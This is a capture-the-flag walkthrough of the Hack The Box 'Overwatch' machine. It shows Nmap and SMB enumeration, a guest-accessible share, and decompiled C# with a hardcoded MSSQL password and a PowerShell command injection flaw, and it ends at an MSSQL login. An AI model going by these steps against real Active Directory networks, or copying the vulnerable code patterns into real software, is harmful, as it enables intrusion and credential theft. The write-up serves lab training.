

## Table of Contents

- [Summary](#Summary)
- [Reconnaissance](#Reconnaissance)
    - [Port Scanning](#Port-Scanning)
    - [Domain Enumeration](#Domain-Enumeration)
    - [Enumeration of Port 445/TCP](#Enumeration-of-Port-445TCP)
- [Investigating the Files](#Investigating-the-Files)
- [Reverse Engineering overwatch.exe](#Reverse-Engineering-overwatchexe)
- [Enumeration of Port 6520/TCP](#Enumeration-of-Port-6520TCP)
- [Initial Access](#Initial-Access)
    - [DNS Takeover and Forced Authentication via SQL Linked Server](#DNS-Takeover-and-Forced-Authentication-via-SQL-Linked-Server)
        - [Time and Date Synchronization](#Time-and-Date-Synchronization)
        - [Adding DNS Entry](#Adding-DNS-Entry)
        - [Force Authentication](#Force-Authentication)
- [user.txt](#usertxt)
- [Enumeration (sqlmgmt)](#Enumeration-sqlmgmt)
- [Privilege Escalation to SYSTEM](#Privilege-Escalation-to-SYSTEM)
    - [Command Injection in WCF Service](#Command-Injection-in-WCF-Service)
        - [Unintended Solution](#Unintended-Solution)
        - [Intended Solution](#Intended-Solution)
- [Post Exploitation](#Post-Exploitation)
- [root.txt](#roottxt)

## Summary

The box starts with an `Active Directory` (`AD`) environment running `Microsoft SQL Server` (`MSSQL`) on the non-standard port `6520/TCP`. `Guest` access on the exposed `Server Message Block` (`SMB`) protocol leads to a share called `software$` which contains a custom `.NET` application named `overwatch.exe`.

`Reverse Engineering` the binary reveals hardcoded `Credentials` for the `sqlsvc` account and a `Windows Communication Foundation` (`WCF`) service running locally on port `8000/TCP`. The application contains a `Command Injection` vulnerability in the `KillProcess()` method that directly concatenates user input into `PowerShell` commands without sanitization.

To gain a `Foothold` on the box the extracted `Credentials` are used to access the `MSSQL` instance. A `Linked Server` configuration pointing to `SQL07` can be abused to perform a `DNS Takeover` attack through `Lightweight Directory Access Protocol` (`LDAP`) by adding a malicious `DNS` entry and forcing authentication via the `Linked Server` connection. With `Responder` running `Cleartext Credentials` for the `sqlmgmt` account can be captured. This account grants `WinRM` access allowing retrieval of the `user.txt` flag.

As `sqlmgmt` the vulnerable `WCF` service running locally on port `8000/TCP` can be accessed. By crafting a malicious `Simple Object Access Protocol` (`SOAP`) request to the `KillProcess()` endpoint with injected `PowerShell` commands it is possible to achieve `Arbitrary Code Execution` as `SYSTEM`.

## Reconnaissance

### Port Scanning

We started with our initial `Port Scan` using `Nmap` which revealed a typical `Active Directory` (`AD`) environment with `DNS`, `Kerberos`, `LDAP`, `SMB`, and `WinRM` services. Additionally `Microsoft SQL Server` was discovered running on the non-standard port `6520/TCP`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -p- 10.129.97.137 --min-rate 10000
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-24 20:06 +0100
Nmap scan report for 10.129.97.137
Host is up (0.015s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE
53/tcp    open  domain
88/tcp    open  kerberos-sec
135/tcp   open  msrpc
139/tcp   open  netbios-ssn
389/tcp   open  ldap
445/tcp   open  microsoft-ds
464/tcp   open  kpasswd5
593/tcp   open  http-rpc-epmap
636/tcp   open  ldapssl
3268/tcp  open  globalcatLDAP
3269/tcp  open  globalcatLDAPssl
3389/tcp  open  ms-wbt-server
5985/tcp  open  wsman
6520/tcp  open  unknown
9389/tcp  open  adws
49664/tcp open  unknown
49668/tcp open  unknown
58621/tcp open  unknown
58622/tcp open  unknown
60785/tcp open  unknown

Nmap done: 1 IP address (1 host up) scanned in 13.91 seconds
```

We performed a more detailed service scan to identify version information and discovered the domain name `overwatch.htb` and the computer name `S200401.overwatch.htb`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV 10.129.97.137        
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-24 20:07 +0100
Nmap scan report for overwatch.htb (10.129.97.137)
Host is up (0.014s latency).
Not shown: 987 filtered tcp ports (no-response)
PORT     STATE SERVICE       VERSION
53/tcp   open  tcpwrapped
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-24 19:07:48Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: overwatch.htb, Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: overwatch.htb, Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: OVERWATCH
|   NetBIOS_Domain_Name: OVERWATCH
|   NetBIOS_Computer_Name: S200401
|   DNS_Domain_Name: overwatch.htb
|   DNS_Computer_Name: S200401.overwatch.htb
|   DNS_Tree_Name: overwatch.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2026-01-24T19:07:50+00:00
| ssl-cert: Subject: commonName=S200401.overwatch.htb
| Not valid before: 2025-12-07T15:16:06
|_Not valid after:  2026-06-08T15:16:06
|_ssl-date: 2026-01-24T19:08:30+00:00; +2s from scanner time.
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
Service Info: Host: S200401; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-01-24T19:07:52
|_  start_date: N/A
|_clock-skew: mean: 1s, deviation: 0s, median: 1s

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 54.29 seconds
```

A comprehensive scan confirmed port `6520/TCP` was running `Microsoft SQL Server 2022`.

```shell
┌──(kali㉿kali)-[~]
└─$ sudo nmap -sC -sV -p- -Pn 10.129.97.137
[sudo] password for kali: 
Starting Nmap 7.98 ( https://nmap.org ) at 2026-01-24 20:36 +0100
Nmap scan report for overwatch.htb (10.129.97.137)
Host is up (0.013s latency).
Not shown: 65513 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2026-01-24 19:41:42Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: overwatch.htb, Site: Default-First-Site-Name)
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  tcpwrapped
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: overwatch.htb, Site: Default-First-Site-Name)
3269/tcp  open  tcpwrapped
3389/tcp  open  ms-wbt-server Microsoft Terminal Services
| ssl-cert: Subject: commonName=S200401.overwatch.htb
| Not valid before: 2025-12-07T15:16:06
|_Not valid after:  2026-06-08T15:16:06
|_ssl-date: 2026-01-24T19:43:10+00:00; +1s from scanner time.
| rdp-ntlm-info: 
|   Target_Name: OVERWATCH
|   NetBIOS_Domain_Name: OVERWATCH
|   NetBIOS_Computer_Name: S200401
|   DNS_Domain_Name: overwatch.htb
|   DNS_Computer_Name: S200401.overwatch.htb
|   DNS_Tree_Name: overwatch.htb
|   Product_Version: 10.0.20348
|_  System_Time: 2026-01-24T19:42:30+00:00
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
6520/tcp  open  ms-sql-s      Microsoft SQL Server 2022 16.00.1000.00; RTM
| ms-sql-ntlm-info: 
|   10.129.97.137:6520: 
|     Target_Name: OVERWATCH
|     NetBIOS_Domain_Name: OVERWATCH
|     NetBIOS_Computer_Name: S200401
|     DNS_Domain_Name: overwatch.htb
|     DNS_Computer_Name: S200401.overwatch.htb
|     DNS_Tree_Name: overwatch.htb
|_    Product_Version: 10.0.20348
| ms-sql-info: 
|   10.129.97.137:6520: 
|     Version: 
|       name: Microsoft SQL Server 2022 RTM
|       number: 16.00.1000.00
|       Product: Microsoft SQL Server 2022
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 6520
|_ssl-date: 2026-01-24T19:43:10+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Not valid before: 2026-01-24T19:04:53
|_Not valid after:  2056-01-24T19:04:53
9389/tcp  open  mc-nmf        .NET Message Framing
49664/tcp open  msrpc         Microsoft Windows RPC
49668/tcp open  msrpc         Microsoft Windows RPC
50727/tcp open  tcpwrapped
58621/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
58622/tcp open  msrpc         Microsoft Windows RPC
59581/tcp open  msrpc         Microsoft Windows RPC
60785/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: S200401; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3.1.1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2026-01-24T19:42:32
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 377.74 seconds
```

We added the discovered `Hostnames` to our `/etc/hosts` file.

```shell
┌──(kali㉿kali)-[~]
└─$ cat /etc/hosts
127.0.0.1       localhost
127.0.1.1       kali
10.129.97.137   overwatch.htb
10.129.97.137   S200401.overwatch.htb
```

### Domain Enumeration

We ran `enum4linux-ng` to gather additional information about the domain. The scan confirmed the domain name and revealed that anonymous and null sessions were allowed.

```shell
┌──(kali㉿kali)-[~/opt/01_information_gathering/enum4linux-ng]
└─$ python3 enum4linux-ng.py 10.129.97.137
ENUM4LINUX - next generation (v1.3.1)

 ==========================
|    Target Information    |
 ==========================
[*] Target ........... 10.129.97.137
[*] Username ......... ''
[*] Random Username .. 'lyagoclx'
[*] Password ......... ''
[*] Timeout .......... 5 second(s)

 ======================================
|    Listener Scan on 10.129.97.137    |
 ======================================
[*] Checking LDAP
[+] LDAP is accessible on 389/tcp
[*] Checking LDAPS
[+] LDAPS is accessible on 636/tcp
[*] Checking SMB
[+] SMB is accessible on 445/tcp
[*] Checking SMB over NetBIOS
[+] SMB over NetBIOS is accessible on 139/tcp

 =====================================================
|    Domain Information via LDAP for 10.129.97.137    |
 =====================================================
[*] Trying LDAP
[+] Appears to be root/parent DC
[+] Long domain name is: overwatch.htb

 ============================================================
|    NetBIOS Names and Workgroup/Domain for 10.129.97.137    |
 ============================================================
[-] Could not get NetBIOS names information via 'nmblookup': timed out

 ==========================================
|    SMB Dialect Check on 10.129.97.137    |
 ==========================================
[*] Trying on 445/tcp
[+] Supported dialects and settings:
Supported dialects:                                                                                                                                                                                                                                                                                                                                                                                                                       
  SMB 1.0: false                                                                                                                                                                                                                                                                                                                                                                                                                          
  SMB 2.02: true                                                                                                                                                                                                                                                                                                                                                                                                                          
  SMB 2.1: true                                                                                                                                                                                                                                                                                                                                                                                                                           
  SMB 3.0: true                                                                                                                                                                                                                                                                                                                                                                                                                           
  SMB 3.1.1: true                                                                                                                                                                                                                                                                                                                                                                                                                         
Preferred dialect: SMB 3.0                                                                                                                                                                                                                                                                                                                                                                                                                
SMB1 only: false                                                                                                                                                                                                                                                                                                                                                                                                                          
SMB signing required: true                                                                                                                                                                                                                                                                                                                                                                                                                

 ============================================================
|    Domain Information via SMB session for 10.129.97.137    |
 ============================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found domain information via SMB
NetBIOS computer name: S200401                                                                                                                                                                                                                                                                                                                                                                                                            
NetBIOS domain name: OVERWATCH                                                                                                                                                                                                                                                                                                                                                                                                            
DNS domain: overwatch.htb                                                                                                                                                                                                                                                                                                                                                                                                                 
FQDN: S200401.overwatch.htb                                                                                                                                                                                                                                                                                                                                                                                                               
Derived membership: domain member                                                                                                                                                                                                                                                                                                                                                                                                         
Derived domain: OVERWATCH                                                                                                                                                                                                                                                                                                                                                                                                                 

 ==========================================
|    RPC Session Check on 10.129.97.137    |
 ==========================================
[*] Check for null session
[+] Server allows session using username '', password ''
[*] Check for random user
[+] Server allows session using username 'lyagoclx', password ''
[H] Rerunning enumeration with user 'lyagoclx' might give more results

 ====================================================
|    Domain Information via RPC for 10.129.97.137    |
 ====================================================
[+] Domain: OVERWATCH
[+] Domain SID: S-1-5-21-2797066498-1365161904-233915892
[+] Membership: domain member

 ================================================
|    OS Information via RPC for 10.129.97.137    |
 ================================================
[*] Enumerating via unauthenticated SMB session on 445/tcp
[+] Found OS information via SMB
[*] Enumerating via 'srvinfo'
[-] Could not get OS info via 'srvinfo': STATUS_ACCESS_DENIED
[+] After merging OS information we have the following result:
OS: Windows 10, Windows Server 2019, Windows Server 2016                                                                                                                                                                                                                                                                                                                                                                                  
OS version: '10.0'                                                                                                                                                                                                                                                                                                                                                                                                                        
OS release: ''                                                                                                                                                                                                                                                                                                                                                                                                                            
OS build: '20348'                                                                                                                                                                                                                                                                                                                                                                                                                         
Native OS: not supported                                                                                                                                                                                                                                                                                                                                                                                                                  
Native LAN manager: not supported                                                                                                                                                                                                                                                                                                                                                                                                         
Platform id: null                                                                                                                                                                                                                                                                                                                                                                                                                         
Server type: null                                                                                                                                                                                                                                                                                                                                                                                                                         
Server type string: null                                                                                                                                                                                                                                                                                                                                                                                                                  

 ======================================
|    Users via RPC on 10.129.97.137    |
 ======================================
[*] Enumerating users via 'querydispinfo'
[-] Could not find users via 'querydispinfo': STATUS_ACCESS_DENIED
[*] Enumerating users via 'enumdomusers'
[-] Could not find users via 'enumdomusers': STATUS_ACCESS_DENIED

 =======================================
|    Groups via RPC on 10.129.97.137    |
 =======================================
[*] Enumerating local groups
[-] Could not get groups via 'enumalsgroups domain': STATUS_ACCESS_DENIED
[*] Enumerating builtin groups
[-] Could not get groups via 'enumalsgroups builtin': STATUS_ACCESS_DENIED
[*] Enumerating domain groups
[-] Could not get groups via 'enumdomgroups': STATUS_ACCESS_DENIED

 =======================================
|    Shares via RPC on 10.129.97.137    |
 =======================================
[*] Enumerating shares
[+] Found 0 share(s) for user '' with password '', try a different user

 ==========================================
|    Policies via RPC for 10.129.97.137    |
 ==========================================
[*] Trying port 445/tcp
[-] SMB connection error on port 445/tcp: STATUS_ACCESS_DENIED
[*] Trying port 139/tcp
[-] SMB connection error on port 139/tcp: session failed

 ==========================================
|    Printers via RPC for 10.129.97.137    |
 ==========================================
[-] Could not get printer info via 'enumprinters': STATUS_ACCESS_DENIED

Completed after 8.57 seconds
```

### Enumeration of Port 445/TCP

Next we attempted to enumerate `Server Message Block` (`SMB`) shares. Anonymous access failed to list shares but the `Guest` account revealed a non-standard `software$` share with `Read` permissions.

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Overwatch/files]
└─$ netexec smb 10.129.97.137 -u '' -p '' --shares
SMB         10.129.97.137   445    S200401          [*] Windows Server 2022 Build 20348 x64 (name:S200401) (domain:overwatch.htb) (signing:True) (SMBv1:False) 
SMB         10.129.97.137   445    S200401          [+] overwatch.htb\: 
SMB         10.129.97.137   445    S200401          [-] Error enumerating shares: STATUS_ACCESS_DENIED
```

```shell
┌──(kali㉿kali)-[/media/…/HTB/Machines/Overwatch/files]
└─$ netexec smb 10.129.97.137 -u 'guest' -p '' --shares
SMB         10.129.97.137   445    S200401          [*] Windows Server 2022 Build 20348 x64 (name:S200401) (domain:overwatch.htb) (signing:True) (SMBv1:False) 
SMB         10.129.97.137   445    S200401          [+] overwatch.htb\guest: 
SMB         10.129.97.137   445    S200401          [*] Enumerated shares
SMB         10.129.97.137   445    S200401          Share           Permissions     Remark
SMB         10.129.97.137   445    S200401          -----           -----------     ------
SMB         10.129.97.137   445    S200401          ADMIN$                          Remote Admin
SMB         10.129.97.137   445    S200401          C$                              Default share
SMB         10.129.97.137   445    S200401          IPC$            READ            Remote IPC
SMB         10.129.97.137   445    S200401          NETLOGON                        Logon server share 
SMB         10.129.97.137   445    S200401          software$       READ            
SMB         10.129.97.137   445    S200401          SYSVOL                          Logon server share
```

We connected to the `software$` share using `smbclient` to explore its contents.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Overwatch/files/extracted]
└─$ smbclient -U guest //10.129.97.137/software$ 
Password for [WORKGROUP\guest]:
Try "help" to get a list of possible commands.
smb: \>
```

The share contained a `Monitoring` directory.

```shell
smb: \> dir
  .                                  DH        0  Sat May 17 03:27:07 2025
  ..                                DHS        0  Thu Jan  1 07:46:47 2026
  Monitoring                         DH        0  Sat May 17 03:32:43 2025

                7147007 blocks of size 4096. 982288 blocks available
```

```shell
smb: \> cd Monitoring
```

Inside the `Monitoring` directory we found the `overwatch.exe` application along with its configuration file and supporting `DLL` files.

```shell
smb: \Monitoring\> ls
  .                                  DH        0  Sat May 17 03:32:43 2025
  ..                                 DH        0  Sat May 17 03:27:07 2025
  EntityFramework.dll                AH  4991352  Thu Apr 16 22:38:42 2020
  EntityFramework.SqlServer.dll      AH   591752  Thu Apr 16 22:38:56 2020
  EntityFramework.SqlServer.xml      AH   163193  Thu Apr 16 22:38:56 2020
  EntityFramework.xml                AH  3738289  Thu Apr 16 22:38:40 2020
  Microsoft.Management.Infrastructure.dll     AH    36864  Mon Jul 17 16:46:10 2017
  overwatch.exe                      AH     9728  Sat May 17 03:19:24 2025
  overwatch.exe.config               AH     2163  Sat May 17 03:02:30 2025
  overwatch.pdb                      AH    30208  Sat May 17 03:19:24 2025
  System.Data.SQLite.dll             AH   450232  Sun Sep 29 22:41:18 2024
  System.Data.SQLite.EF6.dll         AH   206520  Sun Sep 29 22:40:06 2024
  System.Data.SQLite.Linq.dll        AH   206520  Sun Sep 29 22:40:42 2024
  System.Data.SQLite.xml             AH  1245480  Sat Sep 28 20:48:00 2024
  System.Management.Automation.dll     AH   360448  Mon Jul 17 16:46:10 2017
  System.Management.Automation.xml     AH  7145771  Mon Jul 17 16:46:10 2017
  x64                                DH        0  Sat May 17 03:32:33 2025
  x86                                DH        0  Sat May 17 03:32:33 2025

                7147007 blocks of size 4096. 982288 blocks available
```

We configured `smbclient` to recursively download all files from the directory.

```shell
smb: \Monitoring\> mask""
```

```shell
smb: \Monitoring\> recurse ON
```

```shell
smb: \Monitoring\> prompt OFF
```

```shell
smb: \Monitoring\> mget *
```

All files were successfully downloaded for local analysis.

```shell
smb: \Monitoring\> mget *
getting file \Monitoring\EntityFramework.dll of size 4991352 as EntityFramework.dll (11550.6 KiloBytes/sec) (average 11550.6 KiloBytes/sec)
getting file \Monitoring\EntityFramework.SqlServer.dll of size 591752 as EntityFramework.SqlServer.dll (7315.0 KiloBytes/sec) (average 10882.7 KiloBytes/sec)
getting file \Monitoring\EntityFramework.SqlServer.xml of size 163193 as EntityFramework.SqlServer.xml (2309.7 KiloBytes/sec) (average 9844.9 KiloBytes/sec)
getting file \Monitoring\EntityFramework.xml of size 3738289 as EntityFramework.xml (20861.0 KiloBytes/sec) (average 12432.6 KiloBytes/sec)
getting file \Monitoring\Microsoft.Management.Infrastructure.dll of size 36864 as Microsoft.Management.Infrastructure.dll (545.5 KiloBytes/sec) (average 11465.2 KiloBytes/sec)
getting file \Monitoring\overwatch.exe of size 9728 as overwatch.exe (143.9 KiloBytes/sec) (average 10613.2 KiloBytes/sec)
getting file \Monitoring\overwatch.exe.config of size 2163 as overwatch.exe.config (32.5 KiloBytes/sec) (average 9883.1 KiloBytes/sec)
getting file \Monitoring\overwatch.pdb of size 30208 as overwatch.pdb (440.3 KiloBytes/sec) (average 9256.1 KiloBytes/sec)
getting file \Monitoring\System.Data.SQLite.dll of size 450232 as System.Data.SQLite.dll (5785.3 KiloBytes/sec) (average 9013.0 KiloBytes/sec)
getting file \Monitoring\System.Data.SQLite.EF6.dll of size 206520 as System.Data.SQLite.EF6.dll (3010.1 KiloBytes/sec) (average 8663.9 KiloBytes/sec)
getting file \Monitoring\System.Data.SQLite.Linq.dll of size 206520 as System.Data.SQLite.Linq.dll (3055.7 KiloBytes/sec) (average 8360.0 KiloBytes/sec)
getting file \Monitoring\System.Data.SQLite.xml of size 1245480 as System.Data.SQLite.xml (10220.9 KiloBytes/sec) (average 8525.6 KiloBytes/sec)
getting file \Monitoring\System.Management.Automation.dll of size 360448 as System.Management.Automation.dll (4888.9 KiloBytes/sec) (average 8339.8 KiloBytes/sec)
getting file \Monitoring\System.Management.Automation.xml of size 7145771 as System.Management.Automation.xml (17666.6 KiloBytes/sec) (average 10381.9 KiloBytes/sec)
getting file \Monitoring\x64\SQLite.Interop.dll of size 2005688 as x64/SQLite.Interop.dll (13990.6 KiloBytes/sec) (average 10641.8 KiloBytes/sec)
getting file \Monitoring\x86\SQLite.Interop.dll of size 1592504 as x86/SQLite.Interop.dll (11269.4 KiloBytes/sec) (average 10683.4 KiloBytes/sec)
```

```shell
┌──(kali㉿kali)-[/media/…/Machines/Overwatch/files/extracted]
└─$ ll
total 18752
-rwxrwx--- 1 root vboxsf 4991352 Jan 24 20:14 EntityFramework.dll
-rwxrwx--- 1 root vboxsf  591752 Jan 24 20:14 EntityFramework.SqlServer.dll
-rwxrwx--- 1 root vboxsf  163193 Jan 24 20:14 EntityFramework.SqlServer.xml
-rwxrwx--- 1 root vboxsf 3738289 Jan 24 20:14 EntityFramework.xml
-rwxrwx--- 1 root vboxsf   36864 Jan 24 20:14 Microsoft.Management.Infrastructure.dll
-rwxrwx--- 1 root vboxsf    9728 Jan 24 20:14 overwatch.exe
-rwxrwx--- 1 root vboxsf    2163 Jan 24 20:14 overwatch.exe.config
-rwxrwx--- 1 root vboxsf   30208 Jan 24 20:14 overwatch.pdb
-rwxrwx--- 1 root vboxsf  450232 Jan 24 20:14 System.Data.SQLite.dll
-rwxrwx--- 1 root vboxsf  206520 Jan 24 20:14 System.Data.SQLite.EF6.dll
-rwxrwx--- 1 root vboxsf  206520 Jan 24 20:14 System.Data.SQLite.Linq.dll
-rwxrwx--- 1 root vboxsf 1245480 Jan 24 20:14 System.Data.SQLite.xml
-rwxrwx--- 1 root vboxsf  360448 Jan 24 20:14 System.Management.Automation.dll
-rwxrwx--- 1 root vboxsf 7145771 Jan 24 20:14 System.Management.Automation.xml
drwxrwx--- 1 root vboxsf      36 Jan 24 20:14 x64
drwxrwx--- 1 root vboxsf      36 Jan 24 20:14 x86
```

## Investigating the Files

We examined the `overwatch.exe.config` file which revealed important configuration details including a `Windows Communication Foundation` (`WCF`) service endpoint.

```shell
┌──(kali㉿kali)-[/media/…/Machines/Overwatch/files/extracted]
└─$ cat overwatch.exe.config 
<?xml version="1.0" encoding="utf-8"?>
<configuration>
  <configSections>
    <!-- For more information on Entity Framework configuration, visit http://go.microsoft.com/fwlink/?LinkID=237468 -->
    <section name="entityFramework" type="System.Data.Entity.Internal.ConfigFile.EntityFrameworkSection, EntityFramework, Version=6.0.0.0, Culture=neutral, PublicKeyToken=b77a5c561934e089" requirePermission="false" />
  </configSections>
  <system.serviceModel>
    <services>
      <service name="MonitoringService">
        <host>
          <baseAddresses>
            <add baseAddress="http://overwatch.htb:8000/MonitorService" />
          </baseAddresses>
        </host>
        <endpoint address="" binding="basicHttpBinding" contract="IMonitoringService" />
        <endpoint address="mex" binding="mexHttpBinding" contract="IMetadataExchange" />
      </service>
    </services>
    <behaviors>
      <serviceBehaviors>
        <behavior>
          <serviceMetadata httpGetEnabled="True" />
          <serviceDebug includeExceptionDetailInFaults="True" />
        </behavior>
      </serviceBehaviors>
    </behaviors>
  </system.serviceModel>
  <entityFramework>
    <providers>
      <provider invariantName="System.Data.SqlClient" type="System.Data.Entity.SqlServer.SqlProviderServices, EntityFramework.SqlServer" />
      <provider invariantName="System.Data.SQLite.EF6" type="System.Data.SQLite.EF6.SQLiteProviderServices, System.Data.SQLite.EF6" />
    </providers>
  </entityFramework>
  <system.data>
    <DbProviderFactories>
      <remove invariant="System.Data.SQLite.EF6" />
      <add name="SQLite Data Provider (Entity Framework 6)" invariant="System.Data.SQLite.EF6" description=".NET Framework Data Provider for SQLite (Entity Framework 6)" type="System.Data.SQLite.EF6.SQLiteProviderFactory, System.Data.SQLite.EF6" />
    <remove invariant="System.Data.SQLite" /><add name="SQLite Data Provider" invariant="System.Data.SQLite" description=".NET Framework Data Provider for SQLite" type="System.Data.SQLite.SQLiteFactory, System.Data.SQLite" /></DbProviderFactories>
  </system.data>
</configuration>
```

The configuration revealed a `WCF` service endpoint running on port `8000/TCP`.

```shell
http://overwatch.htb:8000/MonitorService
```

## Reverse Engineering overwatch.exe

We used `ILSpy` to decompile the `.NET` executable and analyze its functionality.

- [https://github.com/icsharpcode/AvaloniaILSpy](https://github.com/icsharpcode/AvaloniaILSpy)

The decompiled code revealed the `MonitoringService` class with hardcoded `MSSQL` credentials and several methods including a vulnerable `KillProcess()` function.

```cs
using System;
using System.Collections.ObjectModel;
using System.Data.Common;
using System.Data.SqlClient;
using System.Management;
using System.Management.Automation;
using System.Management.Automation.Runspaces;
using System.Text;
using Microsoft.Win32;

public class MonitoringService : IMonitoringService
{
    private ManagementEventWatcher processStartWatcher;

    private bool isRunning;

    private readonly string connectionString = "Server=localhost;Database=SecurityLogs;User Id=sqlsvc;Password=TI0LKcfHzZw1Vv;";

    public string StartMonitoring()
    {
        if (isRunning)
        {
            return "Already monitoring.";
        }
        SystemEvents.SessionSwitch += SystemEvents_SessionSwitch;
        StartProcessWatcher();
        isRunning = true;
        return "Monitoring started.";
    }

    public string StopMonitoring()
    {
        if (!isRunning)
        {
            return "Monitoring not active.";
        }
        SystemEvents.SessionSwitch -= SystemEvents_SessionSwitch;
        processStartWatcher.Stop();
        isRunning = false;
        return "Monitoring stopped.";
    }

    private void SystemEvents_SessionSwitch(object sender, SessionSwitchEventArgs e)
    {
        string eventType = e.Reason.ToString();
        LogEvent("SessionSwitch", "Reason: " + eventType);
    }

    private void StartProcessWatcher()
    {
        //IL_0005: Unknown result type (might be due to invalid IL or missing references)
        //IL_000b: Expected O, but got Unknown
        //IL_000d: Unknown result type (might be due to invalid IL or missing references)
        //IL_0017: Expected O, but got Unknown
        //IL_0024: Unknown result type (might be due to invalid IL or missing references)
        //IL_002e: Expected O, but got Unknown
        WqlEventQuery query = new WqlEventQuery("SELECT * FROM Win32_ProcessStartTrace");
        processStartWatcher = new ManagementEventWatcher((EventQuery)(object)query);
        processStartWatcher.add_EventArrived((EventArrivedEventHandler)delegate(object sender, EventArrivedEventArgs e)
        {
            string text = e.get_NewEvent().get_Properties().get_Item("ProcessName")
                .get_Value()
                .ToString();
            LogEvent("ProcessStart", "Process: " + text);
        });
        processStartWatcher.Start();
    }

    private void LogEvent(string type, string detail)
    {
        //IL_0006: Unknown result type (might be due to invalid IL or missing references)
        //IL_000c: Expected O, but got Unknown
        //IL_0038: Unknown result type (might be due to invalid IL or missing references)
        //IL_0048: Expected O, but got Unknown
        SqlConnection conn = new SqlConnection(connectionString);
        try
        {
            SqlCommand val = new SqlCommand("INSERT INTO EventLog (Timestamp, EventType, Details) VALUES (GETDATE(), '" + type + "', '" + detail + "')", conn);
            ((DbConnection)(object)conn).Open();
            ((DbCommand)val).ExecuteNonQuery();
        }
        finally
        {
            ((IDisposable)conn)?.Dispose();
        }
    }

    public string KillProcess(string processName)
    {
        string psCommand = "Stop-Process -Name " + processName + " -Force";
        try
        {
            using Runspace runspace = RunspaceFactory.CreateRunspace();
            runspace.Open();
            using Pipeline pipeline = runspace.CreatePipeline();
            pipeline.Commands.AddScript(psCommand);
            pipeline.Commands.Add("Out-String");
            Collection<PSObject> collection = pipeline.Invoke();
            runspace.Close();
            StringBuilder output = new StringBuilder();
            foreach (PSObject obj in collection)
            {
                output.AppendLine(obj.ToString());
            }
            return output.ToString();
        }
        catch (Exception ex)
        {
            return "Error: " + ex.Message;
        }
    }
}
```

The `Reverse Engineering` revealed critical security issues. First we extracted hardcoded `MSSQL` credentials from the connection string.



| Username | Password       |
| -------- | -------------- |
| sqlsvc   | TI0LKcfHzZw1Vv |

More importantly we discovered a critical `Command Injection` vulnerability in the `KillProcess()` method.

```cs
public string KillProcess(string processName)
{
    string psCommand = "Stop-Process -Name " + processName + " -Force";
    // ... executes PowerShell directly with no sanitization
}
```

The `processName` parameter got directly concatenated into a `PowerShell` command with `no Input Validation`!

If we could call the `KillProcess()` method with a malicious process name we could probably achieve `Arbitrary Code Execution`.

## Enumeration of Port 6520/TCP

Using the extracted `Credentials` we connected to `MSSQL` on port `6520/TCP`.

```shell
┌──(kali㉿kali)-[~]
└─$ impacket-mssqlclient overwatch.htb/sqlsvc@10.129.97.137 -port 6520 -windows-auth
